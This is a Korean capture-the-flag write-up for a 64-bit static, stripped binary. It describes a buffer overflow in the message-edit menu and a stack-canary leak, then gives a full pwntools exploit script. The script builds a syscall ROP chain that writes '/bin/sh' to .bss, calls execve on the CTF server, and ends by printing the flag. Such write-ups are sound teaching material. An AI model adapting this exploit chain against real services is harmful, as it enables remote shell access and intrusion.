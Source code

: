 ```yaml
---
layout: post
title: 64bit srop write-up
---
```


64비트에서의 srop문제 라업

1. Binary

----------

![](https://lh3.googleusercontent.com/30jp43G1peSoaTKeRUwwDruSbj4XJPeXdRwlgoEQYvEM8t74hABaLQ7Q4WDndC1Lg2-E9BQp4O8OC0vYZPgorry0nXMVJLxgD9LXecK0zHWuh7E-SAZF1bJ3JgS7Cp2NbMG6ZENg)

이 바이너리는 ELF 64bit 파일입니다. static 컴파일이 되어 있었고, strip된 파일이였습니다.

static 컴파일과 strip이 되어있어서 분석이 어려웠지만 gdb로 흐름을 쫓으며 분석하였습니다.

2. Vulnerability

----------

메뉴 2. Edit message에서 message를 입력 받는데, 여기서 buffer overflow 취약점이 발생합니다.

![](https://lh4.googleusercontent.com/H-MRa7p21Sfj16r6UWCP2MjpzUMPzuZ5oYkht_fLMQtMFxwg0Fl84wgRW0G0BgSBTk0VF5pcbMGjCTOlaScz092GBhAOOiEWKYyG9txbLmaryCIApToHZjUBafx75bNfqiUHELnd)

세번째 인자인 edx 가 400으로 세팅 되어 있습니다. 이는 1024만큼 입력을 받을 수 있게 됩니다.

![](https://lh4.googleusercontent.com/ctjVB282zddqRF4IsuXfUfHozYMTmCx0QHQ22fE7D1EQn3_GSBLaKWIipt5h3ZwodEXIYtQ3M0y06fmZqkDnxU9cPp3WcE1RpHZecuIWxuWgnma01FRyk_-spAfRt1GVaTh-n5ST)

sys_input? 함수를 보면 eax를 0으로 세팅하고 syscall 하는 것을 볼 수 있습니다. 64비트에서 sys_read는 rax가 0으로 세팅되어있으면 호출 됩니다.

![](https://lh3.googleusercontent.com/tfVHbhAUepw4VzGzcN39FcCIvczecNigw48c509WBbZ3SczgkCY2t-2AOOE1NLZUb50jI10eYezeB_OhHzjz8VtCi3K4VaWvh3_6NNC7fbR6LRjzHn7rEN3n8ImHdsI0eWJPbtyt)

입력을 받는 v8변수는 bp - 0xd0 위치에 있으며 bp - 208 위치에 있습니다. 1024만큼 입력을 받을 수 있으니 bof가 가능합니다.

하지만 bp - 0x8 위치에 canary 변수가 있는 것을 확인 할 수 있었습니다. 하지만 이는 1. show 메뉴에서 leak이 가능했습니다.

3. exploit

----------

static 컴파일과 strip 이 되어있어서 일반적인 rop는 힘들어보였습니다. 다만 이 문제에서 syscall을 이용하기 때문에 관련된 정보를 공부하였고, syscall을 이용해 rop가 가능하다는 점을 알았습니다. canary가 활성화 되어있기 때문에 canary를 먼저 leak을 먼저 해준 다음, 다시 input에서 overflow로 rop해주면 되는 문제였습니다.

canary는 널바이트 + 7byte 이렇게 구성이 되는데, 1바이트를 overflow하면 문자열의 끝을 인식 못해 뒤에 바이트까지 leak이 됩니다.

syscall rop 같은 경우는 각 syscall rax number가 정해져있는데, 먼저 bss 영역에 “/bin/sh”을 적기 위해 인자 세팅 후 read(rax == 0) syscall; ret; 가젯으로 호출한뒤 chaining을 통해 rdi에 bss를 세팅하고 rsi에 0을 세팅 한 뒤 rax에는 execve의 rax number인 59를 세팅해 call 했습니다.

밑에는 exploit.py입니다.

>exploit.py

```python
from pwn import  *

#s = process("./rich")

s = remote("null2root.org", 1797)

e = ELF("./rich")

#context.log_level = 'debug'

gadget =  0x0045e395  # syscall ; ret

prdi =  0x00400535

prsi =  0x004017b7

prax =  0x0046dcb6  # pop rax ; pop rdx ; pop rbx ; ret

s.recvuntil("> ")

s.sendline("2")

s.recvuntil(": ")

leak_payload =  "A"*201

s.send(leak_payload)

s.recvuntil("> ")

s.sendline("1")

s.recvuntil("A"*201)

canary = u64("\x00"+s.recv(7))

log.success("canary : "+ hex(canary))

s.recvuntil("> ")

s.sendline("2")

s.recvuntil(": ")

payload =  "A"*200  + p64(canary)+"AAAAAAAA"

payload += p64(prdi)

payload += p64(0)

payload += p64(prsi)

payload += p64(e.bss())

payload += p64(prax)

payload += p64(0) + p64(0xff) + p64(0)

payload += p64(gadget)

payload += p64(prdi)

payload += p64(e.bss())

payload += p64(prsi)

payload += p64(0)

payload += p64(prax)

payload += p64(59) + p64(0) + p64(0)

payload += p64(gadget)

s.send(payload)

s.recvuntil("> ")

s.sendline("3")

s.recv()

s.send("/bin/sh\x00")

s.recv()

s.interactive()
```

![](https://lh3.googleusercontent.com/XnSyaezo4a0TPR0Q8EsAOcMO94Ui6efVoquawzhGbKUvS1SuVEc6MqmOE1QSLRS1DhEpptMjvTXyumtt96KpKBl6gDB0Yluo1LiXjb2WAnh01OHVbujpDNP6nt2QjFQ3uLxBt2Kf)

FLAG : n2r{enjoying_rich_rop_with_static_binary}

 


